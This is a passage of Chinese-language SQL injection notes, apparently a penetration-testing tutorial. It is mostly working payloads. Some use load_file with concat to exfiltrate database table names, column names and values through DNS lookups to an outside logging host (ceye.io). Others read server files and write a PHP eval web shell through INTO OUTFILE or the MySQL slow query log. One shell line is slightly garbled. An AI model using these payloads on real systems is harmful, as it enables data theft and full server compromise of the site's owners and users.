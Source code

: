 ```

//查询当前数据库security中第一个表名
id=1'and load_file(concat("\\\\",(select table_name from information_schema.tables where table_schema='security' limit 0,1 ),".913n8.ceye.io\\xxx.txt"))--+

"""
由于该DNS记录只能回显一个字段，所以因该使用limit，第一个参数是查询起始位置，第二个参数是查询个数
limit 0,1 查询第一个表名
limit 1,1 查询第二个表名
limit 2,1 查询第三个表名
"""
//查询security数据库emails表下第一个列名
id=1'and load_file(concat("\\\\",(select column_name from information_schema.columns where table_schema='security' and table_name='emails' limit 0,1),".913n8.ceye.io\\xxx.txt"))--+

//查询字段值  数据库名为security 表名emails 列名id
id=1'and load_file(concat("\\\\",(select id from security.emails limit 0,1),".913n8.ceye.io\\xxx.txt"))--+

注意：要用limit控制查询的数，以及查询的位置
```

#### [3].通知DNS在线服务器，查询日志，获取注入信息。

### (9)绕过

#### [1]

### (10)root-传文件

读取文件：

```
2 union select 1,load_file(D:\\phpstudy\\PHP...),3,4,5,6,7
```

phpinfo()泄露--SCRIPT_FILENAME

写入文件：

注入要写双斜杠！！

```
1 union select 1,'<?php eval($_POST[x]);?>',3,4 into outfile 'D:\'
sql与一句话注入
```

路径获取：phpinfo,报错,字典

无法写入：secure_file_priv突破(mysql内置文件),secure_file_priv：c 只能在c盘写入，注入需要支持SQL语句，没有就需要借助phpmuadmin或能够直接连上对方数据库进行绕过

```
set global slow_query_log=1;
set global slow_query_log_file='shell路径';
select'<?php eval($)GET[A]?>' or sleep(11);

```
